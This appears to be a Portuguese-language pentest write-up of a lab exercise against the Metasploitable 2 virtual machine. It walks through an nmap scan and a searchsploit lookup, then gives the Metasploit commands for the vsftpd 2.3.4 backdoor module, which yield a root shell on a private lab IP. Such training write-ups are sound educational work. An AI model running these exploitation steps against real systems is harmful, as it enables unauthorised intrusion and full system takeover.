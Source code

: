 # Write-up: Pentest na Máquina Metasploitable 2

Este é um relatório detalhado do teste de invasão realizado na máquina virtual Metasploitable 2, dentro de um ambiente de laboratório controlado.

**Máquina-Alvo:** Metasploitable 2

**Máquina de Ataque:** Kali Linux

**Objetivo:** Identificar vulnerabilidades, explorá-las para obter acesso inicial e escalar privilégios.

---

## Fase 1: Reconhecimento (Reconnaissance)

O primeiro passo foi identificar as portas e serviços rodando na máquina-alvo. Utilizei a ferramenta `nmap` com os seguintes comandos: **nmap -sV -p- 192.168.56.102**. O scan revelou várias portas abertas. A mais crítica parecia ser a porta 21 (FTP), que está rodando uma versão antiga: vsftpd 2.3.4.

<img width="646" height="517" alt="nmap-scan png" src="https://github.com/user-attachments/assets/41874998-8607-4181-8d77-e6d23cde642f" />


## Fase 2: Análise de Vulnerabilidade

Com foco no serviço vsftpd 2.3.4, usei o comando **searchsploit** para verificar por falhas conhecidas. O resultado confirmou que esta versão possui um backdoor crítico quee permite a execução remota de comandos.

<img width="646" height="215" alt="searchexploit png" src="https://github.com/user-attachments/assets/4dc6c711-1428-4723-b2c8-d2b7ac253e56" />


## Fase 3: Exploração

Encontradas as vulnerabilidades, iniciei o o processo de invasão do sistemas por meio de diversos comandos:
**msf6 > search vsftpd_234
  msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
  msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit**

<img width="635" height="230" alt="invasao png" src="https://github.com/user-attachments/assets/02a14128-052f-483b-9257-6d5b822f56db" />

## Fase 4: Pós-Exploração (Acesso Obtido)
**whoami**

**id**

Como prova de acesso, os comandos 'whoami' e 'id' foram executados, confirmando que o shell foi obtido com privilégios de root e controle total sobre o sistema-alvo.

<img width="647" height="93" alt="root png" src="https://github.com/user-attachments/assets/84bc62ab-28bc-4cf7-a61b-46d14f869a99" />
